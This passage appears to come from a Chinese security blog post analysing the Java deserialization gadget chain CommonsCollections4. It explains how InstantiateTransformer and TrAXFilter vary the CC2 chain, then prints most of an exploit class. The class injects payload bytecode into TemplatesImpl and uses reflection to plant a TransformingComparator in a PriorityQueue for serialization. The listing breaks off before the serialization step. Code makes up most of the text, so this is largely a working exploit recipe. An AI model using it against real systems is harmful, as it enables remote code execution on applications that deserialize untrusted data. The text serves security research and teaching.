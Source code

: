 因为cc3引入了InstantiateTransformer类来对cc1做了个变形，那么同理，该类对于cc2也能做同样的变型来形成一条新的链，所以cc4相对于cc2来说并没有将templatesImpl类的实例直接放入队列，而是和cc3一样，利用chained转换链+一个constantTranformer返回TrAXFilter类

[![](https://p1.ssl.qhimg.com/t012025764d9cb6289a.png)](https://p1.ssl.qhimg.com/t012025764d9cb6289a.png)

从而第二次transform的时候即调用该类的newInstance实例化，而实例化的参数因为也是可控的，因此在参数位置放入templateImpl实例<br>**CommonsCollections4.java**

```
package CommonsCollections4;
import  com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.ComparableComparator;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import javax.xml.transform.Templates;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class exp `{`
    public static void main(String[] args) throws IOException, CannotCompileException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, NotFoundException `{`
        //封装templasImpl实例
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload字节码
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]`{`Templates.class`}`,
                        new Object[]`{`tmp`}`) //将TemplatesImpl实例放进参数值位置，与cc3原理一样，便于在构造函数中触发newTransformer
        `}`;
        //封装chained转换链
        ChainedTransformer chian = new ChainedTransformer(trans);
        TransformingComparator transCom = new TransformingComparator(chian);
        //封装外层的队列
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);
        Field com = PriorityQueue.class.getDeclaredField("comparator");
        com.setAccessible(true);
        com.set(queue,transCom);
        //序列化
        File file;
```